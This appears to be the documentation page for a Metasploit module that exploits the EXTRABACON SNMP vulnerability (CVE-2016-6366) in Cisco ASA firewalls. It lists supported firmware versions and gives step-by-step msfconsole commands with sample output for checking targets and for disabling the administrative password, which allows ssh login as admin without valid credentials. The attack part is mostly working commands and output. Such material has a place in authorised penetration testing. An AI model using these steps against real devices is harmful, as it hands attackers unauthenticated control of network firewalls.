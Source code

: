 ## General notes

This is using improved shellcode, has less stages than the Equation Group
version making it more reliable. This makes the SNMP payload packet ~150 less
bytes. Also, the leaked version only supports 8.x, we have it working on 9.x
versions.

To add more version specific offsets, more details and a Lina file offset
finder are available at:

https://github.com/RiskSense-Ops/CVE-2016-6366

## Partial list of supported versions
------------------------------------------------------------
All of the leaked versions are available in the module

- 8.x
- 8.0(2)
- 8.0(3)
- 8.0(3)6
- 8.0(4)
- 8.0(4)32
- 8.0(5)
- 8.2(1)
- 8.2(2)
- 8.2(3)
- 8.2(4)
- 8.2(5)
- 8.2(5)33 `*`
- 8.2(5)41 `*`
- 8.3(1)
- 8.3(2)
- 8.3(2)39 `*`
- 8.3(2)40 `*`
- 8.3(2)-npe `*` `**`
- 8.4(1)
- 8.4(2)
- 8.4(3)
- 8.4(4)
- 8.4(4)1 `*`
- 8.4(4)3 `*`
- 8.4(4)5 `*`
- 8.4(4)9 `*`
- 8.4(6)5 `*`
- 8.4(7) `*`
- 9.x
- 9.0(1) `*`
- 9.1(1)4 `*`
- 9.2(1) `*`
- 9.2(2)8 `*`
- 9.2(3) `*`
- 9.2(4) `*`
- 9.2(4)13 `*`

`*` new version support not part of the original Shadow Brokers leak

`**` We currently can't distinguish between normal and NPE versions from the SNMP strings. We've commented out the NPE offsets, as NPE is very rare (it is for exporting to places where encryption is crappy), but in the future, we'd like to incorporate these versions. Perhaps as a bool option?

## Verification

- Start `msfconsole`
- `use auxiliary/admin/cisco/cisco_asa_extrabacon`
- `set RHOST x.x.x.x`
- `check`
- `run`
- ssh admin@x.x.x.x, you will not need a valid password
- `set MODE pass-enable`
- `run`
- ssh admin@x.x.x.x, ensure fake password does not work

## Checking for a vulnerable version

```
msf > use auxiliary/admin/cisco/cisco_asa_extrabacon
msf auxiliary(cisco_asa_extrabacon) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf auxiliary(cisco_asa_extrabacon) > check

[+] Payload for Cisco ASA version 8.2(1) available!
[*] 192.168.1.1:161 The target appears to be vulnerable.
```

## Disabling administrative password

```
  msf auxiliary(cisco_asa_extrabacon) > set
set ACTION            set ConsoleLogging    set Prompt            set RHOST             set TimestampOutput
set CHOST             set LogLevel          set PromptChar        set RPORT             set VERBOSE
set COMMUNITY         set MODE              set PromptTimeFormat  set SessionLogging    set VERSION
set CPORT             set MinimumRank       set RETRIES           set TIMEOUT           set WORKSPACE
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-
  set MODE pass-disable  set MODE pass-enable
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-disable
MODE => pass-disable
msf auxiliary(cisco_asa_extrabacon) > run

[*] Building pass-disable payload for version 8.2(1)...
  [*] Sending SNMP payload...
  [+] Clean return detected!
[!] Don't forget to run pass-enable after logging in!
[*] Auxiliary module execution completed
```

## Re-enabling administrative password

```
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-enable
MODE => pass-enable
msf auxiliary(cisco_asa_extrabacon) > run

[*] Building pass-enable payload for version 8.2(1)...
  [*] Sending SNMP payload...
  [+] Clean return detected!
[*] Auxiliary module execution completed
```
